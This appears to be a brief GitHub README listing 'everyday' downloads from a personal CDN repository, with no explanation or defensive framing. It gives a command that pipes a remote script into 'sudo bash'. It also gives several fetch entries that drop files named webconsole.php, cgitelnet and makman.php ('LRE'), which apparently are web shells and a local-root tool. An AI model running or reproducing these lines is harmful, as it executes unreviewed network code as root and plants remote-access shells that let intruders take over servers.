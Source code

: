 # Random Stuff i use Everyday
## $name == "sysadmin.sh"
```bash
curl https://raw.githubusercontent.com/0x06060606/cdn/master/sysadmin.sh | sudo bash
```
## $name == "webconsole"
```python
array("https://raw.githubusercontent.com/0x06060606/cdn/master/webcon", "webconsole.php");
```
&nbsp;
&nbsp;
## $name == "cgitelnet1"
```python
array("https://raw.githubusercontent.com/0x06060606/cdn/master/cgi1", "idx_cgi/cgitelnet1.idx");
```
&nbsp;
&nbsp;
## $name == "cgitelnet2"
```python
array("https://raw.githubusercontent.com/0x06060606/cdn/master/cgi2", "idx_cgi/cgitelnet2.idx");
```
&nbsp;
&nbsp;
## $name == "LRE"
```python
array("https://raw.githubusercontent.com/0x06060606/cdn/master/makman", "makman.php");
```
